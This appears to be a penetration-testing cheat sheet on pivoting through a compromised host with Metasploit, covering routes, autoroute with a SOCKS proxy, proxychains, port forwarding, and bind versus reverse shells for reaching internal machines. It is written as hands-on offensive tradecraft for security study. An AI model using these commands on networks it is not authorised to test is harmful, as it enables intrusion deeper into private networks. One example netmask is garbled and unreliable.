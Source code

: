 # ⭕ Metasploit Pivoting

## <mark style="color:red;">Manual Route</mark>

this method will give the full access to the target IP address like its siting in our LAN ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

## <mark style="color:red;">Auto Route Reverse Tunnel</mark>

Once the Meterpreter session is active, we’ll send it to the background and switch to the multi/manage/autoroute module. This will allow us to configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy.

```
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j
```

The autoroute module creates a reverse tunnel and allows us to direct network traffic into the appropriate subnet.

We can use a local proxy application like Proxychains to force TCP traffic through a TOR or SOCKS proxy. We can configure it by adding the SOCKS4 proxy IP and port to the config file (`/etc/proxychains.conf`):

```
proxychains rdesktop 192.168.120.10
```

The route created by Meterpreter also allows us to access any other computer on that internal network.

{% hint style="warning" %}
If you get an error regarding the CredSSP, use xfreerdp instead of rdesktop.&#x20;
{% endhint %}

## <mark style="color:red;">Port Forward</mark>

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

## <mark style="color:red;">Pivote Bind Shell</mark>

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

{% hint style="success" %}
#### Always use a bind shell when pivoting.
{% endhint %}

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

## <mark style="color:red;">Pivot Reverse Shell</mark>

while using a reverse shell with pivoting we have to set the RHOST to target IP in the internal network and set the LHOST to the machine that we have already compromised.

{% hint style="warning" %}
Reverse shells pivots are not OPSEC-safe since we are establishing a TCP connection between 2 systems in the internal network.
{% endhint %}

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
